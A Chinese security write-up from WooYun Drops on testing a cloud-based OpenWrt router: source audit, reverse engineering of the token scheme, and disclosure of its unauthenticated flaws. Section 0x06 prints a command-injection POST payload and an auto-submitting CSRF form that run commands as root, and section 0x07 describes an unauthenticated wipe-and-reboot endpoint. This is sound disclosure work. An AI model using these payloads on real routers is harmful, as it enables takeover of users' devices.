# 对某创新路由的安全测试

2013/07/31 17:34 | [ccSec](http://drops.wooyun.org/author/ccSec "由 ccSec 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 题外话

* * *

很荣幸能够参加乌云的众测，之前一直都是以旁观者的身份在乌云 Zone 里头围观的，也感谢 Insight Labs&乌云的基友给了我这次参加测试的机会。可以说这次整体测试下来，有成功，也有失败，可谓是收益良多。接下来我就把我这次测试的经验和大家分享一下。本人技术有限，如有遗漏和不足，敬请大家多多指教。

### 0x01 测试背景

* * *

本次众测的题目是叫做“某创新应用安全众测”，一看到这个标题，一种神秘的感觉油然而生，把创新和安全联系起来，感觉就比较带劲儿了。根据以往的测试经验，一个新产品与老产品相比，往往可能存在更多的漏洞，创新也给我们白帽子提供了很好的发现漏洞的机会。其实本次测试的产品，在此之前确实比较少见，不过最近互联网上又有好几个厂家在推这类产品。它是一款基于云平台的家庭路由器产品，官方对它的描述是“可安装 APP 的路由器，功能无限扩展，极客为您定制开发！”，把 APP 的概念引入到路由器上，让路由器的功能更加的丰富，也是一种趋势所在。不过个人感觉，涉及到云平台的东西，一旦安全性出现问题，就将给用户带来巨大的影响，所以厂商花大力气在产品安全上下工夫，也是对用户负责的体现。

### 0x02 测试方向

* * *

本次测试的产品分为两个方面，一个是云端服务器的安全，另外一个就是路由器本身的安全。 云端服务器的安全相信大家比较都熟悉，主要就是对网站常见的漏洞、网站逻辑问题和服务器安全进行测试，这里我就不再做过多的表述。本文的重点主要放在对路由器本身的安全测试上。

### 0x03 验明真身

* * *

收到路由器后，我迫不及待的为他宽衣解带，取出真身，插上电源，进行连接。连接上管理界面以后，发现 UI 做的十分精致，登陆之后使用 FireBug 抓包查看其请求的地址，具体如图所示：  

玩过 OpenWrt 的同学应该十分熟悉这串字符，它是登陆后系统所赋予的一个会话令牌，用于验证用户是否登陆的。于是，我就联想到，这款基于云平台的智能路由器，是不是就是基于 OpenWrt 二次开发的呢？如果使用 OpenWrt 进行开发的话，是不是就有可能打开 SSH 连接端口？最终我的猜想得到了证实，我在云插件当中找到了工程模式插件，进行了安装，之后使用 NMAP 对路由器进行端口扫描，扫描结果如图所示：  

发现路由器的 SSH 端口已经打开了，于是使用 SSH 进行连接，输入帐号密码，如图所示，连接成功！  

既然这是一款基于 OpenWrt 二次开发的产品，一般 web 界面都是使用 lua 进行开发，然而 lua 语言是一款脚本语言，可以直接查看其源码来对其进行漏洞分析。既然这样，我们就可以通过 SFTP 下载固件当中的 lua 源码，通过黑白盒测试的结合，来更加快速的发现问题。 但是，通过连接测试，发现 SFTP 服务并未被安装，于是执行以下两条命令进行安装：

```
opkg update
opkg install vsftpd openssh-sftp-server 
```

执行后，系统出现以下提示：  

系统提示找不到 vsftpd 和 openssh-sftp-server 这两个软件包，仔细一看，opkg 的更新软件源为 https://upgrade.turboer.com，而不是 OpenWrt 默认的 http://downloads.openwrt.org/snapshots/trunk/ar71xx/packages，可见厂商把更新源修改成了自己的服务器地址，并且该地址并不包含这两个软件包。 解决这个问题的办法很简单，只要使用 vim 命令，编辑替换/etc/opkg.conf 文件当中的相关内容，就可以将软件包安装地址指向官网的地址了。 修改之后，重新执行以下命令，就可以启动 SFTP 服务了！

```
opkg update
opkg install vsftpd openssh-sftp-server
/etc/init.d/vsftpd enable
/etc/init.d/vsftpd start 
```

### 0x04 下载源码

* * *

根据以往对 OpenWrt 的研究经验，知道 OpenWrt 的 Web 界面源码是保存在/usr/lib/lua 目录下，于是，使用 FileZilla 将该目录下的所有文件都下载到本地，以便分析。如图所示。  

### 0x05 分析源码

* * *

由于之前对 lua 语言研究的也不多，所以这回也只能够硬着头皮的来翻源码。经过了一段时间的查看以后，发现该路由器 Web 界面大量采用 Ajax 技术来调用 API 接口，而主要功能实现代码也就是在这些 API 接口上，这些 API 接口的代码则是在/usr/lib/lua/luci/controller/api/下的 lua 文件当中实现，如图所示。  

首先，我对这些代码的用户验证机制进行了分析，在分析后发现，API 中的每个功能都在 lua 文件的头部进行定义，其中有一个很重要的参数就是控制是否需要用户验证通过才能访问该接口，具体代码如图：  

这些以 entry 开头的代码，就是对功能函数进行定义，经过测试，如果最后一个参数如果为 true，就意味着该接口无需用户登陆即可访问！ 由于需要验证的接口采用 URL 中的 stok 参数和 Cookie 中的 stok 字段来进行验证，这种验证方式由于 URL 中的 stok 参数无法预测，从而避免了 CSRF 和 XSS 攻击。从危害性上来考虑，无需验证的接口存在漏洞，将直接影响到路由器以及客户端计算机的安全。 基于以上几方面的原因，我们着重对这些无需用户登陆即可调用的接口进行测试。

### 0x06 远程命令执行漏洞

* * *

经过了全面的阅读源代码，发现代码当中大量使用 fork_exec、os.execute、luci.sys.call、luci.util.execi 等函数，来调用一些系统命令。这类函数在 PHP、JSP、.NET 代码审计当中，一度被列为危险函数。因为这类函数一旦过滤不严格，将用户输入的非法内容带入，将直接继承 web 服务的权限来执行有害的系统指令。在 OpenWrt 当中，Web 服务的运行权限为 ROOT！ 所以，一旦无需用户登陆即可调用的接口当中存在这类的漏洞，攻击者即可构造恶意页面，远程执行任意命令！本地局域网攻击者也可以直接提交相应的数据，来获取路由器的权限！ 于是，我采用正则表达式来对这些危险函数进行查找，分析其是否有可能执行用户带入的危险参数，终于，在 system.lua -> set_systime() 函数当中，发现了问题。该函数具体代码如图：  

该 API 接口从客户端以 POST 方式接收 date、h、mi、s 这是个值，并且没有经过任何过滤，就放到了 luci.util.execi 函数当中执行，通过构造 date、h、mi、s 其中任意值，都可执行任意系统命令，攻击代码如下： 向

```
http://192.168.199.1/cgi-bin/turbo/api/system/set_systime 
```

页面 post 以下数据：

```
date=1&h=1&mi=1&s=1'%3Bid>/tmp/aa.txt%3B' 
```

就会在/tmp/目录下生成 aa.txt，其内容为 id 命令执行后的结果

```
uid=0(root) gid=0(root) 
```

远程攻击着可以构造自动 POST 的 js 代码，使用 xss 或者诱骗方式让用户访问，以达到远程攻击的效果。 攻击代码如下：

```
<form id='exp' action='http://192.168.199.1/cgi-bin/turbo/api/system/set_systime' method='post'>
    <input name='date' value='1'>

    <input name='h' value='1'>
    <input name='mi' value='1'>
    <input name='s' value="1';id>/tmp/exp.txt;'">

    <input type=submit>
</form>
<script>exp.submit();</script> 
```

### 0x07 远程重启路由，清空闪存数据漏洞

* * *

该路由产品本身自带 8G 的存储空间，该存储空间可以为将来一些离线下载的 APP 提供存储。但是，在 system.lua 当中，存在 format_disk()函数，该函数的功能是格式化存储空间并且重启路由器。最重要的是，该函数无需用户认证即可访问，可被远程攻击者和局域网攻击者所利用。其具体代码如图：  

该函数在 entry 当中设置了 true 参数，允许未登录进行访问，在代码的 12 行中设定了强制格式化存储空间的标记，并且在 22 行当中执行重新启动的代码，系统在重启后将清空存储空间当中的数据。

### 0x08 对云平台自动登陆机制的分析

* * *

在对路由器的分析过程当中，发现 APP 应用的控制中心实际上并不存在于路由器当中，而是通过点击路由器管理界面上的云插件按钮，来自动跳转并登陆到 app.hiwifi.com 上的云平台来进行管理的。 在点击管理界面上的云插件按钮后，系统会跳转到一个中继页面。这个中继页面主要实现三个功能：一、检查路由器是否正常联网。二、从云端获取 Token。三、使用第二步获取的 Token 登录云平台。具体代码如图所示：  

分析到这里，大家可能会想，这个 token 是如何获取的？有没有可能伪造呢？同样，我也被这个问题吸引住了，于是便有了下面的分析。

#### token 的产生步骤

从上图中可以分析得出，api/passport/bind_token_v2 这个函数的功能就是就是获取登录 token，我们调出具体的代码来看一下，代码如图所示：  

从图中可以看到，是 auth.get_token("passport")产生了用于登录的 token，但是经过一段时间的分析，发现 auth 模块并不存在于 lua 源代码当中，而是以动态链接库的形式存在，来供系统调用的。 通过查找，发现 auth 函数库存在于/usr/lib/libauth.so，果断把它下载下来，进行下一步的分析。

#### 对 token 的产生机制进行分析

由于 libauth.so 是一个 Linux 下的动态链接库，那么我们就请出大名鼎鼎的 IDA 来对其进行逆向。 将 libauth.so 拖入 IDA 主界面，IDA 马上识别出了文件类型，其类型为 ELF for MIPS （Shared object）。点击 OK 进行进一步的逆向分析。 由于文件体积不大，IDA 很快的就讲代码逆向出来 ，如图所示。  

在 IDA 的左侧窗口，我们可以看到这个动态链接库导出的所有函数，由于我们想要取得 token 的算法，根据函数名，我们很快就判断，auth_get_token_v2 为生成 token 的函数。 跟进函数内部，发现反汇编的代码为 MIPS 的汇编语言，一下子就晕了。不过仔细一看，还是有一些明显的函数调用，可以大概猜测出 token 的产生流程。具体反汇编代码如图。  

通过上图的逆向结果并结合网络抓包可以发现，程序是通过向

```
https://auth.turboer.com/token?app=market&checksum=e3e2cc483211eabdca40dd792f74fab3&name=D4EE07XXXXXX&cnonce=1542612125&nonce=L8gar0UudEiS6329eA5LfW6ByOyLGHEK@1373822957679 
```

地址提交请求所获取到 Token 的，本次请求主要包含几个关键字段：checksum（校验和）、name（设备 MAC 地址）、cnonce（本地产生的随机数）、nonce（请求 https://auth.turboer.com/nonce 所获取的随机数）。

那么分析到这里，大家就会想到，是不是可以通过把 name 参数更改成别人的 MAC 地址（MAC 地址可以通过一些无需登录即可访问的接口得到，如 api/system/get_info），从而来登录别人的云平台控制中心呢？同样，我也想到了这个问题。不过，根据以往的经验来看，checksum 字段的作用，是用来校验提交的字段是否被更改。所以，要修改 name 的值，必须要能够找出 checksum 的算法，才能够构造出让服务器接受的请求。

#### 对 checksum 的产生机制进行分析

在刚刚的 IDA 逆向分析结果当中，找到了 gen_checksum 函数，双击对其代码进行查看，函数主要代码如图所示。



通过对 gen_checksum 的分析，发现其中还调用了 tw_get_uuid()函数，利用该函数取得的值，来参与校验码的生成。那么这个 tw_get_uuid()函数取得的值是什么呢？由于 libauth.so 的 tw_get_uuid()为导出函数，那么我们可以通过 python 来直接调用该函数，取得返回值，来看看这到底是个什么东西。 我在路由器上安装了 Python，并写了一段代码，直接调用该函数，并打印返回值，具体代码如下：

```
from ctypes import*
auth=CDLL("libauth.so")
uuid = c_char_p("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
auth.tw_get_uuid(uuid)
print uuid.value 
```

运行后结果如图：



从图中可以看出，uuid 像是设备的序列号。

#### Token 产生机制的安全性总结

从以上的分析结果可以看出，checksum 的计算是根据 uuid 和 MAC 等参数共同计算得出的，由于每台设备的 uuid 并不相同，所以即使得到对方的 MAC 地址，也无法通过伪造请求来进行利用。这种多因素校验的机制，极大的保障了云平台用户的安全。

### 0x09 结束语

* * *

从本次测试的结果来看，该创新型家庭路由产品在安全方面总体还是值得肯定的，主要体现在其产品架构方面充分的考虑到了对之前在其他路由产品存在的 CSRF 攻击进行防御，并设计了一套较为安全的 Token 认证机制，用于云平台与本地路由设备的连接。由此可以看出厂商在产品安全方面还是下了比较大的功夫。但是，从反映出来的一些安全问题上来看，产品还存在着一些接口权限控制不严格，没有进行传参过滤的问题。希望本次的测试结果能够为将来厂商对产品的改进提供一定的帮助，让广大网友用上更好更安全的产品。

**Tags:** [源代码分析](http://drops.wooyun.org/tag/%e6%ba%90%e4%bb%a3%e7%a0%81%e5%88%86%e6%9e%90), [路由](http://drops.wooyun.org/tag/%e8%b7%af%e7%94%b1)

版权声明：未经授权禁止转载 [ccSec](http://drops.wooyun.org/author/ccSec "由 ccSec 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [GSM HACK 的另一种方法:RTL-SDR](http://drops.wooyun.org/papers/4716)
*   [Kippo 蜜罐指南](http://drops.wooyun.org/papers/4578)
*   [Rsync 安全配置](http://drops.wooyun.org/papers/161)